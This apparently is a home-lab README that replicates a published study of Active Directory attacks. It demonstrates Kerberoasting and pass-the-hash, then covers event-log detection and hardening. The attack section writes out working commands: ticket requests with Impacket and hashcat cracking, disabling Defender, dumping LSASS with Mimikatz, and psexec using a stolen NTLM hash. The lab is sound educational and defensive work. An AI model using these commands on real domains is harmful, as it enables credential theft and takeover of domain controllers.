# Active Directory Attack & Defense Lab

> **Project Type:** Cybersecurity Home Lab — Offensive + Defensive  
> **Reference Paper:** Mokhtar, B.I., Jurcut, A.D., ElSayed, M.S., and Azer, M.A. (2022). "Active Directory Attacks—Steps, Types, and Signatures." *Electronics*, 11(16), 2629. DOI: 10.3390/electronics11162629  
> **Tools Used:** VirtualBox, Windows Server 2019, Windows 11 LTSC, Kali Linux, Mimikatz, Impacket, Hashcat  
> **Status:** Complete ✅

---

## Overview

This project replicates the experimental methodology of Mokhtar et al. (2022) in a minimal, self-contained Active Directory lab environment. The goal was to demonstrate two real-world privilege escalation attack techniques — Kerberoasting and Pass-the-Hash — then document their detection signatures and apply defensive hardening measures.

The project follows the full attack-defend lifecycle:
1. Build a realistic AD environment
2. Execute attacks as a low-privilege attacker
3. Identify what evidence the attacks leave in Windows event logs
4. Harden the environment against the demonstrated attack paths

---

## Lab Environment

### Topology

```
┌─────────────────────────────────────────────────┐
│              adlab (Internal Network)            │
│                                                  │
│   ┌──────────────┐        ┌──────────────────┐  │
│   │    DC01      │        │    CLIENT01      │  │
│   │ Windows      │◄──────►│ Windows 11 LTSC  │  │
│   │ Server 2019  │        │ Domain-joined    │  │
│   │ 192.168.56.10│        │ User: alice.     │  │
│   │ Domain:      │        │       johnson    │  │
│   │ lab.local    │        └──────────────────┘  │
│   └──────────────┘                               │
│          ▲                                       │
│          │                                       │
│   ┌──────────────┐                               │
│   │    Kali      │  ← Attacker machine           │
│   │ 192.168.56.30│                               │
│   │ (+ NAT for   │                               │
│   │  internet)   │                               │
│   └──────────────┘                               │
└─────────────────────────────────────────────────┘
```

### VM Specifications

| VM | OS | RAM | Role |
|---|---|---|---|
| DC01 | Windows Server 2019 | 2GB | Domain Controller, `lab.local` |
| CLIENT01 | Windows 11 LTSC | 4GB | Domain-joined workstation |
| Kali | Kali Linux | 2GB | Attacker machine |

### Domain Accounts Created

| Account | Type | Purpose |
|---|---|---|
| Administrator | Domain Admin | Built-in DC admin |
| alice.johnson | Domain User | Low-privilege employee simulation |
| svc_sql | Domain User + SPN | Service account (Kerberoasting target) |







---

## Attack Phase

### Attack 1: Kerberoasting

**Concept:** Any domain user can request a Kerberos service ticket for any account with a registered Service Principal Name (SPN). That ticket is encrypted using the service account's password. If the password is weak, it can be cracked offline — with zero interaction with the Domain Controller after the initial ticket request.

**Why it matters:** As documented in Mokhtar et al. (2022), Kerberoasting is particularly dangerous because it leaves no useful detection signature on either the workstation or the Domain Controller. The attacker simply logs in normally after cracking the ticket offline.

**Setup:** Created service account `svc_sql` with a weak password and registered an SPN:

```cmd
setspn -A MSSQLSvc/dc01.lab.local:1433 lab\svc_sql
```



**Execution (from Kali):**

```bash
# Request and dump the Kerberos ticket
impacket-GetUserSPNs lab.local/alice.johnson:Password -dc-ip 192.168.56.10 -request

# Crack the ticket offline
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```





**Result:** Password cracked in **6 seconds**.



**Detection finding:** Per Mokhtar et al. (2022), Kerberoasting generates no anomalous log entries on DC01. The ticket request is indistinguishable from legitimate service access. Detection requires upstream monitoring of unusual SPN enumeration activity rather than the ticket request itself.

---

### Attack 2: Pass-the-Hash

**Concept:** Windows stores password hashes in LSASS memory for active sessions. NTLM authentication accepts the hash itself as proof of identity — meaning an attacker who steals a hash can authenticate as that user without ever knowing the actual password. This is a fundamental weakness in NTLM's design.

**Execution — Phase 1: Hash Extraction (on DC01 with admin access)**

```powershell
# Disable Defender (simulating post-compromise attacker action)
Set-MpPreference -DisableRealtimeMonitoring $true

# Run Mimikatz to dump LSASS credentials
.\mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
```




**Hash extracted:**
```
User Name : Administrator
Domain    : LAB
NTLM      : 1f732ce21a56719cbfe8d95a88f87729
```

**Execution — Phase 2: Lateral Movement (from Kali)**

```bash
impacket-psexec -hashes :1f732ce21a56719cbfe8d95a88f87729 Administrator@192.168.56.10
```

**Result:**
```
C:\Windows\system32> whoami
nt authority\system
```

Full SYSTEM-level access on DC01, obtained without knowing the Administrator password.



**Detection finding (per Mokhtar et al., 2022):** Pass-the-hash leaves two identifiable signatures in Windows Security logs:
- **Event ID 4624** — Logon Type 3 (Network) from Kali's IP (192.168.56.30), multiple rapid consecutive entries
- **Event ID 4672** — Special Privileges Assigned to Administrator

---

## Detection Evidence

### Event 4624 — Pass-the-Hash Logon Signature

PowerShell query used to surface the attack:

```powershell
Get-WinEvent -FilterHashtable @{LogName='Security'; Id=4624} | 
Where-Object {$_.Properties[8].Value -eq 3 -and $_.Properties[5].Value -eq "Administrator"} | 
Select-Object TimeCreated, 
  @{Name="User";Expression={$_.Properties[5].Value}}, 
  @{Name="IP";Expression={$_.Properties[18].Value}} | 
Select-Object -First 5
```

Result showed four rapid consecutive Type 3 logons from `192.168.56.30` (Kali) as Administrator. This clustering pattern — multiple rapid admin logons from a single external IP — is itself a high-fidelity detection signal in a real SOC environment.



### Event 4672 — Special Privileges Assigned

```powershell
Get-WinEvent -FilterHashtable @{LogName='Security'; Id=4672} | 
Select-Object TimeCreated, @{Name="User";Expression={$_.Properties[1].Value}} | 
Where-Object {$_.User -eq "Administrator"} | 
Select-Object -First 5
```



### Key Detection Limitation

Kerberoasting produced **no detectable log entries** during or after the attack — consistent with Mokhtar et al. (2022). This underscores the paper's finding that preventive controls (strong service account passwords, minimal SPNs) are the primary defence against Kerberoasting, not detection-based approaches.

---

## Hardening Phase

### 1. Service Account Password Strengthened

Reset `svc_sql` password from weak (`Password123#`) to a strong passphrase. Renders offline Kerberoasting computationally infeasible regardless of ticket acquisition.



**Principle:** Prevention over detection for Kerberoasting — since the attack leaves no useful log trace, the only reliable defence is making the cracking cost prohibitive.

### 2. Audit Policy Enabled

```cmd
auditpol /set /subcategory:"Logon" /success:enable /failure:enable
auditpol /set /subcategory:"Special Logon" /success:enable /failure:enable
```



Enables generation of Event 4624 and 4672 for future pass-the-hash attempts. Note: auditing must be configured *before* an attack occurs — logs captured during this project confirmed this gap when the policy was not yet active during initial attack execution.

### 3. Least Privilege Verified

Confirmed `alice.johnson` and `svc_sql` are members of Domain Users only — no elevated group memberships. Limits blast radius of credential compromise to a single low-privilege account.





### 4. LDAP Channel Binding Enforced

```cmd
reg add "HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters" /v "LdapEnforceChannelBinding" /t REG_DWORD /d 2 /f
```



Addresses DC01's own Event 3041 warning flagged at initial promotion. Enforces validation of Channel Binding Tokens on LDAPS connections, mitigating LDAP relay attack vectors.

---

## Key Findings

| Finding | Attack | Implication |
|---|---|---|
| Kerberoasting cracked weak SPN password in 6 seconds | Kerberoasting | Service account passwords must be long, random, and regularly rotated |
| No log entries generated during Kerberoasting | Kerberoasting | Detection-based approaches are insufficient; prevention is primary |
| NTLM hash reused without knowing plaintext password | Pass-the-Hash | Hash theft = account compromise; limit admin account reuse across machines |
| Events 4624 + 4672 confirmed post-attack | Pass-the-Hash | Audit policy must be pre-configured; reactive logging is too late |
| DC01 flagged its own LDAP misconfiguration at setup | Hardening | Default AD installs are not secure; explicit hardening is always required |

---

## Skills Demonstrated

- Active Directory deployment and administration (Windows Server 2019)
- Kerberos authentication protocol and SPN-based attack surface
- Credential extraction from LSASS using Mimikatz
- Lateral movement via pass-the-hash (Impacket psexec)
- Offline hash cracking with Hashcat (mode 13100, Kerberos TGS-REP)
- Windows Security event log analysis (PowerShell queries)
- Audit policy configuration via `auditpol`
- Registry-based hardening of AD DS parameters
- Replication of peer-reviewed security research methodology

---

## Reference

Mokhtar, B.I., Jurcut, A.D., ElSayed, M.S., and Azer, M.A. (2022). Active Directory Attacks—Steps, Types, and Signatures. *Electronics*, 11(16), 2629. https://doi.org/10.3390/electronics11162629

---

*This lab was built for educational purposes in an isolated VirtualBox environment. All attacks were performed against systems I own and control.*
